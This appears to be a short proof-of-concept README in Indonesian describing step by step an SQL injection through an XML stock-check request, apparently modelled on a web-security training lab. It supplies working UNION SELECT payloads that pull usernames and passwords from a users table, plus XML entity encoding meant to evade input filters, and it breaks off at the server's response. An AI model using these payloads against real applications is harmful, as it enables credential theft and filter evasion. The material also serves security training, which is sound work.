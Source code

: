 Simple POC

---

### **Langkah 1: Identifikasi SQL Injection**
1. Kirimkan payload berikut dalam parameter XML request untuk menguji SQL Injection:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <stockCheck>
       <productId>1</productId>
       <storeId>1 UNION SELECT NULL</storeId>
   </stockCheck>
   ```
   **Penjelasan**:
   - Parameter `<storeId>` dimodifikasi untuk menyisipkan query SQL menggunakan `UNION SELECT`.
   - Jika respons server berubah, itu menunjukkan bahwa aplikasi rentan terhadap SQL Injection.

---

### **Langkah 2: Eksploitasi SQL Injection**
2. Ubah payload untuk menggunakan `UNION SELECT` dengan kolom sesuai target:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <stockCheck>
       <productId>1</productId>
       <storeId>1 UNION SELECT username || '~' || password FROM users</storeId>
   </stockCheck>
   ```
   **Penjelasan**:
   - Payload ini mengambil data dari tabel `users` dengan kolom `username` dan `password`.
   - Simbol `||` digunakan untuk menggabungkan nilai `username` dan `password` dengan pemisah `~`.

---

### **Langkah 3: Encode Payload dengan Hash Entities (HackVector)**
3. Encode karakter sensitif dalam payload menggunakan entitas XML agar dapat melewati filter keamanan aplikasi:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <stockCheck>
       <productId>1</productId>
       <storeId>1 UNION SELECT username || '&#126;' || password FROM users</storeId>
   </stockCheck>
   ```
   **Penjelasan**:
   - Simbol `~` diubah menjadi kode entitas `&#126;` untuk menghindari deteksi atau sanitasi input.
   - Gunakan alat seperti **HackVector** untuk melakukan encoding otomatis pada payload.

---

### **Langkah 4: Kirim Request dan Analisis Respons**
4. Kirimkan payload terencode melalui alat seperti **Burp Suite** atau **Postman**.
   - Jika berhasil, server akan merespons dengan data gabungan `username~password`:
     ```
     HTTP/2 200 OK
     Content-Type: text/plain; charset=utf-8
     X-Frame-Options: SAMEORIGIN
     Content-Length: 100
